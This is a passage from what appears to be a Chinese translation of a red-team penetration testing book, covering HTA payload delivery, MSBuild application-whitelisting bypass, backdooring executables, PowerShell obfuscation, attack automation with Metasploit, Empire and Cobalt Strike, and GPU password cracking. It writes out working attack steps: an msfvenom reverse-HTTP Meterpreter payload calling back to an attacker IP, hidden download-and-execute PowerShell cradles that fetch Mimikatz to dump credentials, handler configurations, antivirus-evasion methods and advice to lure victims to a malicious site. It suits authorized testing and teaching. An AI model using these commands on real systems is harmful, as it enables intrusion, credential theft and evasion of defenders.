    *   打开新终端并创建 C Sharp Meterpreter 载荷
    *   `msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=10.100.100.9 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp`
    *   复制介于 "{" 和 "}" 之间的所有内容作为字节数组

*   提供 CSharp Web 交付的 URI
    *   输入您的攻击者 IP/端口和文件。例如：`http://10.100.100.9/malware.payload`
*   提供输出文件名称
    *   `malware`
*   `Y` - 您想将恶意文件混入 HTML 中吗？
*   使用自定义 `(1)` 或预定义 `(2)` 模板
    *   为了测试，选择任何预定义模板

*   将新创建的恶意文件移动到 Web 目录
    *   `mv output/* /var/www/html/`
*   为您的载荷设置 Meterpreter 处理器
一旦配置并开发您的恶意软件，将其移至 Web 目录 (`malware.hta`, `malware.html`, `malware.payload`)，启动您的 `apache2` 服务，并启动 Meterpreter 处理器。现在您准备好将您的受害者社交工程引导其访问您的恶意网站！上述示例是 SharpShooter 的 SharePoint Online 模板。当受害者使用 IE/Edge 访问您的恶意页面时，HTA 会自动下载并提示运行。一旦提示并选择运行，启动器载荷将运行（如果满足沙盒控制条件），下载二次载荷，并在内存中执行我们的 Meterpreter 载荷。

 

## 应用程序白名单绕过

我们讨论过在不运行 PowerShell 代码的情况下触发 PowerShell 的不同方法，但如果不能运行自定义 Windows 二进制文件呢？应用程序 bypass（Application Bypass）的概念是找到能够执行我们载荷的默认 Windows 二进制文件。我们曾在 Domain Controllers 等受良好管控且代码执行受限的机器上进行过。我们可以使用不同的 Windows 文件来绕过这些限制——让我们看看几个例子。

一个常被提及且能够规避应用程序白名单的 Windows 二进制文件是 `MSBuild.exe`。`MSBuild.exe` 是什么？它做什么？`MSBuild` 是 .NET Framework 中的默认应用程序，用于使用 XML 格式的项目文件构建（编译）.NET 应用程序的平台。我们可以滥用此功能，通过创建恶意的 XML 项目文件来执行 Meterpreter 会话，使用的工具名为 `GreatSCT` 。

`GreatSCT` (`https://github.com/GreatSCT/GreatSCT`) 有各种应用程序白名单绕过方法可以使用，但我们只关注 `MSBuild`。在此示例中，我们将创建一个恶意 XML 文件，该文件托管一个 `reverse_http` Meterpreter 会话。这将要求我们在受害系统上写入 XML 文件并使用 `MSBuild` 执行（构建）该 XML 文件：

*   `git clone https://github.com/GreatSCT/GreatSCT.git /opt/`
*   `cd /opt/GreatSCT`
*   `python3 ./gr8sct.py`
*   `[4]` `MSBUILD/msbuild.cfg`
*   输入您的主机 IP `[0]` 和端口 `[1]`
*   `generate`
*   在 Metasploit 中设置 `windows/meterpreter/reverse_http` 处理器


在我们的 Kali 实例中，我们使用 GreatSCT 创建 `shellcode.xml` 文件，该文件包含构建信息以及 Meterpreter 反向 HTTP shell（载荷）。该文件需要移动到受害系统并使用 `MSBuild` 调用。

*注意：我看到 GreatSCT 正在"develop"分支上积极开发/更新 (`https://github.com/GreatSCT/GreatSCT/tree/develop`)，其中包括 `https` Meterpreter 和额外的白名单绕过方法。我假设到本书发布时，它将移动到 "master"。



当在 Windows 受害机器上执行命令 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe shellcode.xml` 时，.NET 将开始构建（编译）`shellcode.xml` 文件。在此过程中，受害机器将生成反向 HTTP Meterpreter 会话，绕过任何应用程序白名单。您可能希望编辑 `shellcode.xml` 文件以输入混淆载荷，因为默认的 Meterpreter 很可能会触发杀毒软件。



有多种方法可以执行应用程序白名单 bypass（规避），这可能需要一本专门的书来详细说明。以下是其他资源：

*   大量使用 Windows 默认可执行文件的优秀示例：


*   [`https://github.com/api0cradle/UltimateAppLockerByPassList`]
*   使用 REGSRV32 和 PowerShell Empire：
    *   [`https://www.blackhillsinfosec.com/evade-application-whitelisting-using-regsvr32/`]

*   通过 Excel.Application RegisterXLL 执行 DLL：
    *   [`https://rileykidd.com/2017/08/03/application-whitelist-bypass-using-XLL-and-embedded-shellcode/`]
*   利用 INF-SCT 获取与执行技术进行绕过、规避和持久化：
    *   [`https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/`]

*   使用 Regsvr32 绕过 AppLocker：
    *   [`https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/`]

## 代码洞穴（Code Caves）

与任何红队行动一样，我们总是在寻找在环境中进行横向移动或保持持久性的创意方式。通常，如果拥有凭据，我们会尝试使用 `WMI` 或 `PSExec` 在远程系统上执行载荷。然而，有时我们需要找到不易被追踪的创意方式在环境中移动。

作为红队成员，在行动中被发现并不是最糟糕的事情。最糟糕的是当我们被发现时，蓝队找出了行动中涉及的所有域名、IP 地址和失陷主机。蓝队通常很容易审查 `WMI`/`PSExec` 样式的连接以识别横向移动，因为这些连接并不总是被视为正常流量。那么我们可以做些什么来进一步隐藏我们的横向移动呢？

正是在这里我们可以发挥创意，而且没有标准答案（如果有效，对我来说就足够了）。我进入环境后喜欢做的几件事之一是识别积极共享/执行的公共共享和文件。我们可以尝试在 Office 文件中添加宏，但这可能过于明显。一种通常检测率低但成功率高的攻击是将我们定制的恶意软件嵌入到可执行二进制文件中。这可以是一个共享二进制文件如 `putty`、一个常见的内部胖客户端，甚至是数据库工具。

虽然已不再维护，但执行此类攻击的最简单工具之一是 Backdoor factory（后门工厂）（[`https://github.com/secretsquirrel/the-backdoor-factory`]. Backdoor factory 会查找真实程序中的代码洞穴或空块，攻击者可以在其中注入自己的恶意 shellcode。这在 THP2 中有所介绍，其理念保持不变。

关于对可执行文件进行后门植入的两个很好的额外资源可以在这里找到：

*   [`https://haiderm.com/fully-undetectable-backdooring-pe-file/#Code_Caves`]
*   [`https://www.abatchy.com/2017/05/introduction-to-manual-backdooring_24.html`]

## PowerShell 混淆

如今 `PowerShell` 脚本的问题是，如果将其下载到磁盘上，许多防病毒工具会检测到它们。即使将它们导入内存中，那些检查内存的防病毒工具有时也会对其进行警报。

无论如何，如果你从 `Cobalt Strike`、`Meterpreter` 或 PowerShell Empire 将它们导入内存，重要的是确保我们不会被防病毒工具捕获。如果我们确实被捕获了，至少应使 IR/取证团队难以逆向我们的攻击载荷。

我们都见过这样的 PowerShell 命令：

```
Powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString('[PowerShell URL]'); [Parameters]
```

这是我们要绕过执行策略、以隐藏/非交互方式运行并下载和执行 `PowerShell` 载荷的最基本字符串组合。对于蓝队来说，我们看到了关于这些特定参数（如 "`-Exec Bypass`"）的大量日志记录。因此，我们通过一些常见的 PowerShell 语法对此参数进行了混淆：

*   `-ExecutionPolicy Bypass`
    *   `-EP Bypass`
    *   `-Exec Bypass`
    *   `-Execution Bypass`

更疯狂的是，我要感谢 Daniel Bohannon 识别出这一点，你实际上不需要执行完整的参数字符串即可使其工作。例如，对于 `-ExecutionPolicy Bypass`，以下所有示例均有效：

*   `-ExecutionPolicy Bypass`
*   `-ExecutionPol Bypass`
*   `-Executio Bypass`
*   `-Exec Bypass`
*   `-Ex Bypass`

这些相同的技术同样适用于 `WindowStyle` 甚至是 `EncodedCommand` 参数。当然，这些技巧只能让我们走一小段路，我们需要创建更多混淆的变换。首先，我们可以采用一个非常简单的示例，通过管理 PowerShell 提示符执行我们的远程 `PowerShell` 脚本（在本例中为 Mimikatz）并转储哈希值：

```
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://bit.ly/2JHVdzf'); Invoke-Mimikatz -DumpCreds
```

通过 (`Invoke-Obfuscation`)，我们可以使用几种不同的技术对这个字符串进行重度混淆：

*   在 Windows 上，下载 `Invoke-Obfuscation` 的 `PowerShell` 文件（[`https://github.com/danielbohannon/Invoke-Obfuscation`])
*   加载 PowerShell 脚本并启动 Invoke-Obfuscation
    *   `Import-Module` ./`Invoke-Obfuscation.psd1`
    *   `Invoke-Obfuscation`

设置你想要混淆的 `PowerShell` 脚本。在本例中，我们将混淆上述的下载和转储 Mimikatz 哈希值：

```
SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString('http://bit.ly/2JHVdzf'); Invoke-Mimikatz -DumpCreds
```

*   对载荷进行编码（**`ENCODING`**）
    *   在本例中，我选择了 `SecureString`（`AES`），但你可以尝试所有混淆技术。



如果你查看混淆后的字符串，会有一个随机生成的密钥和一个加密的安全字符串。在执行管理 PowerShell 后，我们仍然获得完整的载荷以执行。



我们还可以回到主屏幕并创建混淆的启动器：

*   `main`
*   `launcher`
*   `CLIP++`
    *   选择你的执行标志



更好的是，如果我们查看 Windows PowerShell 日志，它们非常混淆，可以帮助规避防病毒和 SEIM 警报工具。



除了 `Invoke-Obfuscation` 之外，Daniel 还创建了一个专注于远程下载 cradle 的工具，称为 `Invoke-CradleCrafter`。“Invoke-CradleCrafter 旨在帮助蓝队和红队轻松探索、生成和混淆 `PowerShell` 远程下载 cradle。此外，它帮助蓝队测试检测的有效性，这些检测可能对由 `Invoke-Obfuscation` 产生的输出有效，但在处理 Invoke-CradleCrafter 时可能会失败，因为它不包含任何字符串连接、编码、撇号、类型转换等。”（[`https://github.com/danielbohannon/Invoke-CradleCrafter`])

## 无 PowerShell 的 PowerShell：

你最终在一台机器上获得了远程代码执行，但发现你要么无法运行 `PowerShell.exe`，要么公司正在监控 `PowerShell.exe` 命令。你有哪些选项可以在该主机系统上运行你的 `PowerShell` 载荷或 C2 代理？

NoPowershell（NPS）

我喜欢 NoPowerShell 或 NPS 的概念。NPS 是一个 Windows 二进制文件，它通过 .Net 执行 PowerShell，而不是直接调用 PowerShell.exe。虽然这通常今天会被 AV 标记，但我们使用相同的概念来创建二进制文件以直接执行我们的 `PowerShell` 恶意软件，而不需要 PowerShell.exe。Ben0xA 提供了源代码，所以请随意尝试混淆二进制文件以绕过 AV。

NPS_Payload（[`https://github.com/trustedsec/nps_payload`])

NPS 的另一种变体是 TrustedSec 的一项工具，它利用通过 MSBuild.exe 执行代码。该工具生成一个 `PowerShell` 载荷到 msbuild_nps.xml 文件中，该文件在调用时执行。XML 文件可以通过以下方式调用：

```
C:\Windows\Microsoft.NET\Framework\v4030319\MSBUILD.EXE C:<path_to_msbuild_npsxml>
```

SharpPick


## `SharpPick`: 无需调用 `PowerShell.exe` 即可运行 PowerShell

`SharpPick` 是 `PowerPick` 的一个组件，是一个非常实用的工具，允许你调用 `PowerShell` 而无需执行 `PowerShell.exe` 二进制文件。在 `SharpPick` 中，“RunPS 函数利用 `System.Management.Automation` 功能在 PowerShell runspace 内部执行脚本，而不会启动 PowerShell 进程。” [http://www.sixdub.net/?p=555]

下载 `SharpPick`（https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick）后，你可以使用你的 `PowerShell Empire` 负载创建二进制文件。有关如何设置环境和构建负载的完整指南，请参阅：

*   http://www.sixdub.net/?p=555
*   https://bneg.io/2017/07/26/empire-without-powershell-exe/

有时，无法将二进制文件投放到目标主机系统上。在这种情况下，我们可以创建一个 `Class Library`（`DLL 文件`），将其投放到系统上并通过 `rundll32.exe runmalicious.dll,EntryPoint` 执行。

当然，这些 DLL 的创建可以为 `Meterpreter` 或 `Cobalt Strike` 自动完成，但拥有无需调用 `PowerShell.exe` 即可运行特定 PowerShell 负载的灵活性是非常好的。

## HideMyPS

几年前我写的一个工具 [`HideMyPS`](https://github.com/cheetz/hidemyps) 至今仍然非常有效。这原本只是一个概念验证（POC）工具，但历经多年依然可用。我之前面临的问题是，如今任何 PowerShell 脚本都会被杀毒软件（AV）捕获。例如，如果我们将普通的 `Invoke-Mimikatz.ps1`（http://bit.ly/2H3CNXS）投放到装有 `Windows Defender` 的 Windows 系统上，它会立即检测到该 PowerShell 脚本并向各处发送警报。这是传统杀毒软件的主要缺陷之一，即它们通常查找恶意软件中的非常特定的字符串。因此，我编写了一个小型 Python 脚本，用于对 PowerShell 脚本中的所有字符串进行混淆（该脚本仅针对少数脚本进行了测试，因此远未达到生产级代码的标准）。

`HideMyPS` 将查找所有函数并使用 ROT 算法混淆它们，删除 PowerShell 脚本中的所有注释，并切断字符串以逃避静态杀毒签名。在下一个示例中，让我们以 `Invoke_Mimikatz.ps1`（http://bit.ly/2H3CNXS）为例，对该 PowerShell 文件进行混淆：

*   cd `/opt/HideMyPS`
*   python hidemyps.py invoke_mimikatz.ps1 [filename.ps1]



现在，看看原始文件和你创建的新文件之间的区别。首先，你可以看到函数名称都被打乱了，变量被更改，字符串被切断成两半，且所有注释都已消失。



你必须记住的一点是，我们更改了 PowerShell 脚本中的所有函数名称。因此，为了调用这些函数，我们必须回头看我们的混淆文件，看看我们是如何替换 "function Invoke-Mimikatz" 的。在这种情况下，`Invoke-Mimikatz` 被更改为 `Vaibxr-Zvzvxngm`。以下示例是在完全打补丁的 Windows 10 且 Defender 完全更新的情况下运行的。



## 结论

作为红队成员或渗透测试人员，与主机和网络检测工具的博弈将永远是一场猫鼠游戏。因此，理解底层保护机制的工作原理、编写低级代码以直接通过 Windows API 而非 Shell 命令进行交互，以及跳出思维定势并发挥创意，变得至关重要。如果你只关注使用常用工具，在企业的网络环境中被检测到的可能性就相当高。如果工具是公开的，安全厂商很可能在它们发布后迅速逆向工程并开发相应的签名。你需要对当前的攻击和漏洞利用进行定制和改造，使其不被这些厂商识别。

# 8 特殊团队 - 破解、漏洞利用和技巧



本章重点关注我发现对红队和渗透测试都很有用的一些资源。这些资源可能不会在每次行动中用到，但对于特定场景或一次性案例非常有用。

## 自动化

随着基于启发式方法的端点保护越来越强大，我们的攻击也需要越来越快。我们通常可以编写能够逃避 AV 并绕过初始检测的恶意软件，但一旦我们开始执行像 `Mimikatz`（内存中）这样的调用或横向移动到另一台主机时，警报就会响起。为了应对这种情况，我始终告诉红队成员要在第一次尝试时就被捕获。通常，当蓝队触发我们的基本/默认风格（或轻微混淆）的恶意软件时，他们会认为这是一种胜利，但其真正目的仅仅是了解他们的环境。这是通过我们的初始负载在受害者机器上自动运行多个侦察脚本来实现的。在下一节中，我们将介绍一些可以帮助自动化部分攻击的快速自动运行脚本。

### 使用 RC 脚本自动化 Metasploit

借助 `Metasploit`，我们可以通过以下方式高效且有效地运行我们的后渗透脚本：

*   搜索 Metasploit 中的所有后渗透模块
*   msfconsole
    ```cpp
    show post
    ```
从“post”结果中，选择你希望在与 `Meterpreter Shell` 连接时自动执行的所有模块。在此案例中，我们将添加一个权限迁移后渗透模块（http://bit.ly/2vn1wFB）到我们的攻击中。为了配置 Meterpreter Shell 以便在从受损主机建立初始连接时运行此负载，我们需要指定一个 AutoRunScript 参数。随意添加尽可能多的 `AutoRunScripts` 以转储有关系统/网络的信息、横向移动等！

### 创建 Handler 和 AutoRunScript：
*   创建 handler 文件
    *   gedit handler.rc
*   配置 handler 和自动运行脚本
    ```cpp
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST 10.100.100.9
    set LPORT 443
    set AutoRunScript post/windows/manage/priv_migrate
    set ExitOnSession false
    set EnableStageEncoding true
    exploit -j
    ```
*   启动 handler
    *   msfconsole -r handler.rc

### 自动化 Empire

Empire 具有与 Metasploit 资源文件类似的功能，可以自动化许多重复性任务。首先我们需要创建一个文件（在我们的示例中，我们将创建一个名为 `/opt/empire_autoload.rc` 的文件），然后在我们的 `Empire` 实例中加载它。

*   在单独的终端窗口中，创建 handler 文件：
    *   gedit `/opt/empire_autoload.rc`
*   添加你想要执行的所有后渗透模块：
    ```cpp
    usemodule situational_awareness/network/powerview/get_user
    execute
    back

    usermodule situational_awareness/network/powerview/get_computer
    execute
    back
    ```
*   在 Empire 中，加载 autoload.rc 资源文件：
    *   agents
    ```cpp
    autorun /opt/empire_autoload.rc powershell
    autorun show
    ```


如你所见，当代理连接时，它自动运行了 `get_user` 和 `get_computer PowerShell 脚本`。所有这些结果都将存储在 `agent.log 文件` 中。在此案例中，我们的代理名称是 N6LM348G，因此日志将存储在 `/opt/Empire/downloads/N6LM348G/agent.log` 中。

### 自动化 Cobalt Strike


Cobalt Strike 如此强大的原因之一，正是得益于 Aggressor Scripts (https://www.cobaltstrike.com/aggressor-script/index.html)。借助 Cobolt Strike Aggressor Scripts，您不仅可以配置自动运行风格的脚本，还可以创建非常复杂的攻击。例如，我经常会遇到这样的情况：我们获取了对共享工作站的访问权限，比如实验室或会议室的盒子。我希望我们的代理能够做的第一件事就是每半小时运行一次 Mimikatz 以提取明文凭证。利用 Aggressor Scripts，我们可以完成所有这些操作以及更多功能。以下是一个仅实现上述功能的示例脚本：`mimikatz-every-30m.cna`(http://bit.ly/2IXgIel)。

## Aggressor 收集脚本

*   `https://github.com/bluscreenofjeff/AggressorScripts`
*   `https://github.com/harleyQu1nn/AggressorScripts`

### 自动化的未来

最后，还有一些令人兴奋的项目正在朝着自动化、智能入侵和高级持续性威胁（APT）攻击的方向发展。我深信，自动化攻击将成为未来妥协的必经之路，而且我们将需要能够测试/验证我们的安全控制措施的能力。以下是我认为在开创这一自动化趋势方面具有巨大潜力的两个工具：

Portia - `https://github.com/SpiderLabs/portia`
Caldera - `https://github.com/mitre/caldera`

## 密码破解

我最新也是最喜爱的密码列表之一来自最近的包含 14 亿用户名/密码的 41GB 密码转储 (http://bit.ly/2HqbYk8)。现在，我不想直接链接到 Torrent，因为它包含大量敏感的用户名（或电子邮件）及相关密码；但您可以在网上搜索 BreachCompilation.tar.bz2 以获取更多信息。在下载这类非常敏感的信息之前，请先查阅相关法律法规。我建议，与其直接使用原始转储文件，不如只下载密码列表。我已经从该 41GB 转储中剔除了所有用户名/邮箱，并制作了一个仅包含密码的列表。其位置如下所示：`http://thehackerplaybook.com/get.php?type=THP-password`。

在我的个人系统中，我使用了 8x Gigabyte GV-N108TTURBO-11GD AORUS GeForce GTX 1080 Ti Turbo 11G 显卡。大约花费$12,000（含机箱、内存、电源供应器、SSD 和图形处理器），您就可以组建这样一套系统。当然，机箱至少需要是一个 4U 机架式服务器（例如：SYS-4028GR-TR2）并配备充足的电力支持。虽然肯定不便宜，但我们每秒可以破解约 47,2 亿个哈希值，并对 NTLM（Windows）哈希进行暴力破解。以下是这八块 GPU 的 hashcat 基准测试结果：`Hashmode: 1000 - NTLM`

```
Speed.Dev.#1.....: 59436.3 MH/s (63.16ms)
Speed.Dev.#2.....: 58038.3 MH/s (64.70ms)
Speed.Dev.#3.....: 59104.4 MH/s (63.55ms)
Speed.Dev.#4.....: 59123.0 MH/s (63.52ms)
Speed.Dev.#5.....: 58899.7 MH/s (63.74ms)
Speed.Dev.#6.....: 59125.8 MH/s (63.51ms)
Speed.Dev.#7.....: 59256.3 MH/s (63.36ms)
Speed.Dev.#8 .....: 59064.5 MH/s (63.56ms)
Speed.Dev.#*.....: 472.0 GH/s
```

对于那些无法负担大规模 GPU 配置的用户，还有其他选择。虽然仍然不便宜，但您可以考虑使用云端进行破解。近期，亚马逊集成了 TESLA GPU（不是指汽车品牌）`http://www.nvidia.com/object/tesla-servers.html`,其性能强于 GTX 1080 Ti 系列。关于如何利用这些 GPU 设置您自己的破解服务器，Medium 上有一篇很棒的文章： `https://medium.com/@iraklis/running-hashcat-v4-0-0-in-amazons-aws-new-p3-16xlarge-instance-e8fab4541e9b`。

根据 Iraklis Mathiopoulos 文章中的统计数据：

`Hashmode: 1000 - NTLM:`

```
Speed.Dev.#1.....: 79294.4 MH/s (33.81ms)
Speed.Dev.#2.....: 79376.5 MH/s (33.79ms)
Speed.Dev.#3 .....: 79135.5 MH/s (33.88ms)
Speed.Dev.#4.... : 79051.6 MH/s (33.84ms)
Speed.Dev.#5.....: 79030.6 MH/s (33.85ms)
Speed.Dev.#6 .....: 79395.3 MH/s (33.81ms)
Speed.Dev.#7.... : 79079.5 MH/s (33.83ms)
Speed.Dev.#8.....: 79350.7 MH/s (33.83ms)
Speed.Dev.#* .....: 633.7 GH/s
```

NTLM 的总速度比使用 TESLA GPU 卡高出约 34%。运行 AWS 的小时成本约为$25，因此，这完全取决于您如何确定自己的预算、需求和目标。

## 实验室环境

近期，“我是否已被泄露”（Have I Been Pwned）网站的 Troy Hunt 发布了一个 SHA1 密码哈希列表，大小约为压缩后的 5.3 GB。这是一个来自先前数据泄露和转储事件的非常大的列表。这是一个非常适合测试您密码破解技能的绝佳实验场景：

*   `https://downloads.pwnedpasswords.com/passwords/pwned-passwords-1.0.txt.7z`

随着这些 GPU 的速度越来越快，少于 10 个字符的密码可以在相对合理的时间范围内被智能暴力破解。其中一些可以通过良好的密码掩码进行破解，但大部分情况归根结底还是依赖于密码列表。使用来自真实泄露事件的密码列表是破解长度大于 12 位密码的最快方法之一。审查所有过去的泄露事件，让我们能深入了解人类是如何创建密码的、常见的混淆技术以及偏爱的词汇选择等方法。利用这些带有复杂规则集的列表，使我们能够以极大的速度（有时甚至超过 25 个字符）进行密码破解。但要记住，您的密码列表依赖于您构建和维护它的程度好坏。作为红队成员，我们定期追踪所有被破解的账户，分析它们并将其添加到我们的列表中。我们还持续监控新的泄露事件、pastebin/pastie 类网站以及其他来源，以发现新密码。一个值得关注的优秀列表可以在这里找到： `https://inteltechniques.com/OSINT/pastebins.html`。

## 最爱的密码列表

*   berzerk0 的真实 WPA 密码列表 (Real-Password-WPA Password List):
    *   18.6 GB（未压缩）
    *   `http://bit.ly/2EMs6am`
*   berzerk0 的字典风格列表:
    *   1 GB（未压缩）
    *   `http://bit.ly/2GXRNus`
*   Xato 的一千万个密码 (Ten Million Passwords)
    *   magnet:?xt=urn:btih:32E50D9656E101F54120ADA3CE73F7A65EC9D5CB
*   Hashes.org
    *   `https://hashes.org/left.php`
    *   多个 GB 大小，并呈每日增长趋势
*   Crackstation
    *   15 GB（未压缩）
    *   ` https://crackstation.net/files/crackstation.txt.gz` 
*   Weakpass
    *   海量密码列表资源
    *   `https://weakpass.com/wordlist`
*   First20Hours
    *   该仓库包含基于 Google 万亿词语料库的 n-gram 频率分析确定的 1 万个最常用英语单词按频率排序。
    *   ` https://github.com/cyberspacekittens/google-10000-english` 
*   SkullSecurity.org  
    *   出色的旧版密码列表，如 rockyou、myspace、phpbb 等
    *   `https://wiki.skullsecurity.org/Passwords`
*   Daniel Miessler 的密码汇总 (Password Compilation)      
    *   `https://github.com/cyberspacekittens/SecLists` 
*   Adeptus-mechanicus 哈希转储  
    *   ` http://www.adeptus-mechanicus.com/codex/hashpass/hashpass.php` 

通过结合良好的密码列表，我们可以在此基础上添加规则以找到更多密码。就 Hashcat 而言，规则定义了是否需要向单词表注入任何修改。描述规则的最好方式是提供这个易于遵循的示例：

*   `` `cAz"19[0-9][0-9]"` ``
*   `` `Az"19[0-9][0-9]"` `` 
*   ```' cAz "2 0 [ 0 1 ][ 0 - 9] "````
*   `` `Az"20[01][0-9]"` ``  

它将在每个密码中追加从 1949 年到 2019 年的年份。如果密码列表包含单词"hacker"，它将尝试破解字符串"hacker1949”一直到“hacker2019"的哈希值请记住您拥有的规则越复杂，完成所有词语处理所需的时间就越长。


幸运的是，我们不需要创建自己的规则，因为已经有很多优秀的现成规则可供使用。当然，其中包括来自许多旧数据泄露事件和常见密码操作技巧的默认 `hashcat` 规则。这些是一个很好的起点。`Kore Rules` 源自 `Korelogic` 举办的密码竞赛，是另一项行业标准。另外两个规则集 `NSAKEY` 和 `Hob0Rules` 虽然处理时间较长，但提供了非常详细的规则集。在过去，我会收集所有规则，通过 `cat` 命令将它们合并到一个文件中，并使用 `unique` 命令去重。而现在，`NotSoSecure` 实际上会自动为你完成这一步。

规则来源：

*   **Hashcat Rules**
    *   https://github.com/hashcat/hashcat/tree/master/rules
*   **Kore Rules**
    *   http://contest-2010.korelogic.com/rules-hashcat.html
*   **NSAKEY Rules (我最喜欢的之一)** *Forked*
    *   https://github.com/cyberspacekittens/nsa-rules
*   **Praetorian-inc Hob0Rules** *Forked*
    *   https://github.com/cyberspacekittens/Hob0Rules
*   **NotSoSecure - One Rule to Rule Them All** *Forked*
    *   https://github.com/cyberspacekittens/password_cracking_rules

## 全都要破译——尽可能快地破解尽可能多的密码

你拥有来自 `Cyber Space Kittens` 泄露事件的海量密码列表。在时间有限的情况下，如何获得最高的投入产出比？以下的步骤指南将引导你完成我们最初执行的步骤，以破解尽可能多的密码。虽然通常情况下，我们只需要找到少数几个 `Domain Admin`/`LDAP Admin`/`Enterprise Admin` 账户，但我因 `OCD`（强迫症）倾向而倾向于尝试破解所有密码。

在开始之前，你确实需要理解你的哈希值的密码格式。`hashcat` 提供了一个很好的示例哈希列表，展示了它们的外观：http://hashcat.net/wiki/doku.php?id=example_hashes。一旦理解了哈希类型，最好进行一些初始测试运行，以确定密码哈希算法的速度是快还是慢。这将对你的密码破解策略产生巨大影响。例如，在查看 `Windows` 哈希时，我们看到 `NTLM` (`Windows`) 的性能约为 75,000 MH/s。而常见的 `Linux` 哈希 `SHA-256` 的性能约为 5,000 MH/s。

这意味着对于 `SHA-256` 哈希，你的 `GPU` 每秒可以猜测 5,000,000,000 次。这看起来似乎很多，但当你面对巨大的词表和大型规则集时，这可能还不够强大。这是因为 `SHA-256` 的算法相当慢且计算成本高，相比之下 `NTLM` 每秒可以处理 75,000,000,000 次哈希。在我们的案例中，我们要全力以赴，何乐而不为呢？我们将使用八块 1080TI `GPU`，并使用快速哈希转储的 `NTLM`。

### 破译 CyberSpaceKittens 的 NTLM 哈希值：

